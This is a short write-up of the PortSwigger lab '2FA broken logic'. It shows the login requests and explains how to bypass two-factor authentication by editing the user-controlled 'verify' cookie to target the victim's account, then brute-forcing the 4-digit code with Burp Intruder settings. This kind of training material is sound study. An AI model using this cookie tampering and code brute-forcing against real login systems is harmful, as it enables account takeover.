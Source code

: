# [Lab: 2FA broken logic](https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-broken-logic)

## Lab

This lab's two-factor authentication is vulnerable due to its flawed logic. To solve the lab, access Carlos's account page.

- Your credentials: `wiener`:`peter`
- Victim's username: `carlos`
You also have access to the email server to receive your 2FA verification code.

## Analysis

F2A flow:

```http
POST /login HTTP/1.1

username=wiener&password=peter

HTTP/1.1 302 Found
Location: /login2
Set-Cookie: verify=wiener; HttpOnly
```

```http
GET /login2 HTTP/1.1
Cookie: verify=wiener;

HTTP/1.1 200 OK
```

after request to `/login2`, the code is sent to mail. access email client and get code

```http
POST /login2 HTTP/1.1

mfa-code=1234
```

## Problems and exploit

1. the server will generate a f2a code if receive:

    ```http
    GET /login2 HTTP/1.1
    Cookie: verify=wiener;

    HTTP/1.1 200 OK
    ```

    - but the rerivy cookie is user controlled => we can force server to generate f2a code of another account

2. server no bruteforce defense: the f2a code is just a 4-digits number => we can bruteforce with 10000 payloads:

- mode: sniper
- positions:

  ```http
  POST /login2 HTTP/1.1

  mfa-code=§§
  ```

- payloads:
  - type: bruteforcer
  - character set: 0123456789
  - min length: 4
  - max length: 4
